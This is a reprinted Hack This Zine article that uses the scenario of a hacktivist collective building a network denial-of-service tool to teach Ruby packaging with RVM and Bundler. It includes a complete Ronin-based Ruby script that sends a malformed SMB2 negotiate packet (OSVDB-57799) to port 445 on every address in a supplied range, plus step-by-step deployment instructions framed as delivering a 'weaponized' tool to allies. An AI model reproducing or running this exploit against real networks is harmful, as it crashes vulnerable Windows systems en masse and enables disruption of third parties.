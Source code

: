 ﻿---
layout: default
title: "Hack This Zine #10 article - Delivering Weaponized Exploits with Ronin, RVM, and Bundler with evoltech and postmodern"
---

# Hack This Zine #10 article - Delivering weaponized exploits with Ronin, RVM, and Bundler

One of the challenges I have found when developing with ruby has been with configuring my ruby development environment.  Trying to get the right version of ruby installed then all of the required gems only to find out that I need to upgrade my copy of ruby gems which is not supported by my OS packaging system. Postmodern turned me onto rvm [1] and bundler [2] which has been a revelation similar to the discovery of yum and apt-get after manually managing rpm and dpkg dependencies by hand.  There is some overlapping functionality in rvm and bundler, but they can be used together to prevent you from having to install a specific ruby environment from scratch, and provides a simple way to specify application dependencies for development and deployment.

Consider the following scenario.  You and your tech collective have been tasked with providing a weaponized tool capable DOSing a windows network in solidarity with some general strike.  The requirements of the tool are that it is simple to use, requires running only a few commands, and requires no manual intervention once running.  Your group decides to implement the tool in ruby leveraging the ronin environment.  The group has access to its own custom ronin overlays, and custom ruby libraries which are not publicly published, as well as all of the other public ruby libraries which are published. After  finishing the app your group needs a simple way to package it all up and send it off to the folk who requested the tool.  This can be done easily with rvm and bundler.  The included Readme.txt sent to your allies may look something like this:

Install a Ruby 1.9.1 environment with rvm (pay attention to any notes on
modifying your .bashrc here):

        $ bash < <( curl http://rvm.beginrescueend.com/releases/rvm-install-head )
        $ exec ~/.bashrc
        $ rvm install 1.9.1 ; rvm 1.9.1
        $ gem install bundler

Pull down the code for the netDOS app (contents of this are described below)
        # Note: no one but your tech-collective and client has access to this repo.

        $ git clone git://your.sketchy.crew.org/netDos.git
        $ cd netDos

Install the dependencies for the netDOS app:

        $ bundle install

Run netDos:

        $ ./netDos 10.1.1.1/24

To make achieve this level of ease all the team had to do is specify the specific dependencies for netDOS in a file called `Gemfile` in the apps main directory that references the specific version of the libraries used, optionally with a path to a source location.  ie:

        $ cat Gemfile
        source :gemcutter
        gem 'open_namespace', '~> 0.3.0'
        gem 'dm-core', '~> 0.10.0'
        gem 'ronin', '~> 0.4.0', :git =>'https://github.com/ronin-rb/ronin.git'
        gem 'ronin-support', '~> 0.1.0', :git =>'https://github.com/ronin-rb/ronin-support.git'

Then roll it up for deployment with (saving all dependencies in your app's main directory under vendor/cache):
        $ bundle package

A quick look through recent vulnerabilities brings you to a likely match from OSVDB-57799 [3] which describes a flaw in the SMBv2 that can trigger a dereference 
to an out of bound memory area.  And bonus for you (cause you have been working late nights and all your get for all this activisty work is dumpstered bagels) someone already wrote a proof of concept [4].  All you have to do is weaponize it for your clients target [5]:

{% highlight ruby %}
#!/usr/bin/env ruby
require 'ronin/extensions/ip_addr'
require 'ronin/network/tcp'

payload = [
  "\x00\x00\x00\x90", # Begin SMB header: Session message
  "\xff\x53\x4d\x42", # Server Component: SMB
  "\x72\x00\x00\x00", # Negociate Protocol
  "\x00\x18\x53\xc8", # Operation 0x18 & sub 0xc853
  "\x00\x26", # Process ID High: --> :) normal value should be "\x00\x00"
  "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xfe",
  "\x00\x00\x00\x00\x00\x6d\x00\x02\x50\x43\x20\x4e\x45\x54",
  "\x57\x4f\x52\x4b\x20\x50\x52\x4f\x47\x52\x41\x4d\x20\x31",
  "\x2e\x30\x00\x02\x4c\x41\x4e\x4d\x41\x4e\x31\x2e\x30\x00",
  "\x02\x57\x69\x6e\x64\x6f\x77\x73\x20\x66\x6f\x72\x20\x57",
  "\x6f\x72\x6b\x67\x72\x6f\x75\x70\x73\x20\x33\x2e\x31\x61",
  "\x00\x02\x4c\x4d\x31\x2e\x32\x58\x30\x30\x32\x00\x02\x4c",
  "\x41\x4e\x4d\x41\x4e\x32\x2e\x31\x00\x02\x4e\x54\x20\x4c",
  "\x4d\x20\x30\x2e\x31\x32\x00\x02\x53\x4d\x42\x20\x32\x2e",
  "\x30\x30\x32\x00"
].join

unless ARGV.length > 0
  puts "usage: [IPv4 | IPv6 | CIDR Range | Globbed Range] ..."
  puts "examples:"
  puts " #{$0} 10.1.1.1"
  puts " #{$0} 10.1.1.1/24"
  puts " #{$0} 10.1.*.1-5"
  exit -1
end 

ARGV.each do |range|
  IPAddr.each(range) do |ip|
    begin
      puts "[-] Sending SMB payload to #{ip} ..."
      Net.tcp_connect_and_send(payload,ip,445)
    rescue
      puts "[!] Skipping #{ip}"
      next
    end
  end
end
{% endhighlight %}

This file would be included in the repo with the Gemfile as well as the 
Gemfile.lock, and all of the files installed in vendor/cache after running `bundle package`.  Then finish the night by sending off an email with the simple instructions above to your friends, grab beverage of your choice, and head down to the tracks to enjoy the rest of your evening.

[1] RVM - Ruby Version Manager http://rvm.beginrescueend.com/

[2] Bundler is a tool that manages gem dependencies for your ruby application. It takes a gem manifest file and is able to fetch, download, and install the gems and all child dependencies specified in this manifest. It can manage any update to the gem manifest file and update the bundle's gems accordingly. It also lets you run any ruby code in context of the bundle's gem environment.
https://github.com/carlhuda/bundler/blob/master/README.md

[3] OSVDB-57799 'Microsoft Windows srv2.sys Kernel Driver SMB2 Malformed 
NEGOTIATE PROTOCOL REQUEST Remote DoS' : http://osvdb.org/57799

[4] OSVDB-57799 proof of concept by Laurent Gaffié : 
http://g-laurent.blogspot.com/2009/09/windows-vista7-smb20-negotiate-protocol.html

[5] Weaponized OSVDB-57799 written by postmodern: http://gist.github.com/183261
